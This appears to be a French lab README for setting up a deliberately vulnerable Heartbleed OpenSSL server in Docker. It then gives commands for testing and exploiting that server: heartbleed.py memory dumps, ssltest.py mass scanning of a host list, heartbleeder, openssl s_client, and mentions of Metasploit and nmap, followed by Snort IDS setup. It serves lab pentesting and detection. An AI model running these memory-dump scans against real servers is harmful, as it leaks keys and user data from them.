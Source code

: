 #### Récapitulatif exploiter la faille/ tester la vulnérabilité

- attaque via metasploit msfconsole
- usage de nmap avec le module ssl-heartbleed
- script
    - ssltest.py
    - heartbleed.py
    - [fox](http://blog.fox-it.com/wp-content/uploads/2014/04/fox_heartbleedtest.zip)
    - [pacemaker.py](https://github.com/Lekensteyn/pacemaker)
- tester via openssl_client 
- tester avec un ids/idps
-  heartbleeder *paquetage linux*



##### prérequis 
- outils :
    - Attaquant
        - git 
        - docker:
            - docker-ce
            - docker-compose
        - docker
    - Pentester :
        - Quasiment tout les fichiers sauf heartbleeder
            - git    
        - stimulate-server.py -- heartbleed.py -- ssltest.py
            - python:
                - python1-2
                - python3
        - Linux Debian distributions
            - heartbleeder
    - Détecteur :
        - snort

#### Mise en place via les scripts :
- Un serveur sera le serveur vulnérable 
    - On lance le script : chmod +x ../bash/*.sh && ../bash/heartbleed-vulnerable-server.sh
- Un client sera le client lambda ou pentester *test de sécurité*
    - On lance le script : chmod +x ../bash/*.sh && ../bash/heartbleed-vulnerable-pentest.sh
-  On configure les hostslist et les adresses IP sur les serveurs ou en les récupérant 
> [!NOTE]
> $ip correspond à l'adresse IP du serveur vulnérable si le serveur

##### Mise en place du serveur vulnérable :
-  Installation de Docker
`chmod +x && ./install-docker.sh  && sudo apt-get install -y docker-compose`

- Installation du serveur vulnérable avec un docker-compose.yml
```bash
sudo apt-get update -y && sudo apt-get install -y python
git clone https://github.com/injcristianrojas/heartbleed-example.git

cd heartbleed-example
docker-compose up
```

> [!NOTE]
> A readme file is in : ./markdown/heartbleed-example/README.md
> The project is delivered with :
> Un docker-compose pour lancer le serveur vulnérable
> Un programme pour injecter de la donnée : `stimulate_server.py`
> Un script pour exploiter : `heartbleed.py` : dump le contenu du serveur et teste si le serveur est vulnérable (outil principal)


### Mise en place du serveur pentest :

#### Injecter de la donnée / stimuler le serveur cible

```bash
sudo apt-get update -y && sudo apt-get install -y python
git clone https://github.com/injcristianrojas/heartbleed-example.git
cd heartbleed-example


chmod +x stimulate_server.py
python stimulate_server.py -a $ip
```


#### Pentest :
- Voici les principales étapes : lors de l'installation des outils :
    - Tester avec un outil de pentest :
        - install git
        - clone and cp repo
        - config hostlist
        - test

-  HEARTBLEED : *Dump la RAM*
    - script heartbleed.py
    
    ```bash
        sudo apt-get update -y && sudo apt-get install -y python
        git clone https://github.com/injcristianrojas/heartbleed-example.git
        cd heartbleed-example


        chmod +x heartbleed.py
        python heartbleed.py $ip -p 443
        python heartbleed.py $ip -p 443 -v -n 50
    ```


- Paquetage linux heartbleeder : *Check*

```bash
sudo apt-get update -y && sudo apt-get install -y heartbleeder && sudo apt-get autoremove -y
heartbleeder $ip:443
```


-  Usage du script ssltest.py : *Check*

```bash
sudo apt-get update -y && sudo apt-get install -y python
sudo apt-get update -y && sudo apt-get install -y git 
git clone https://github.com/tdussa/heartbleed-masstest.git
cd heartbleed-masstest
nano hostlist.txt && chmod +x ssltest.py
./ssltest.py --ports "443, 993, 995, 44330" hostlist.txt
```

- tester via openssl_client *Check and dump*

```bash
openssl s_client -connect $ip:44330 -tlsextdebug | grep "TLS server extension"
```


- mais au préalable
    - mise en place du serveur vulnérable depuis le serveur docker ou un autre serveur
    ```bash
    openssl s_server -key /etc/ssl/private/apache-selfsigned.key -cert /etc/ssl/certs/apache-selfsigned.crt -accept 44330 -www
    ```


#### attaque :
- attaque via metasploit msfconsole
- usage de nmap avec le module ssl-heartbleed





==============================================================================================
### mise en place du serveur vulnérable sur Windows
- En cas de problème de ports :
    ```powershell
    netstat -aon | find ":443"
    tasklist /SVC /FI "PID eq 15524"
    ```
    
   *tuer le processus ex: VMWARE*


======================
#####  Mise en place de snort
<!-- - launch sol2
    - Select Save from the bar on top and close the file. At this point, Snort is ready to run.   
    Except, it doesn’t have any rules loaded. To verify, run the following command:    
    `sudo snort -T -i eth0 -c /etc/snort/snort.conf`
    - Now, let’s start Snort in IDS mode and tell it to display alerts to the console:
    `sudo snort -A console -q -c /etc/snort/snort.conf -i eth0` -->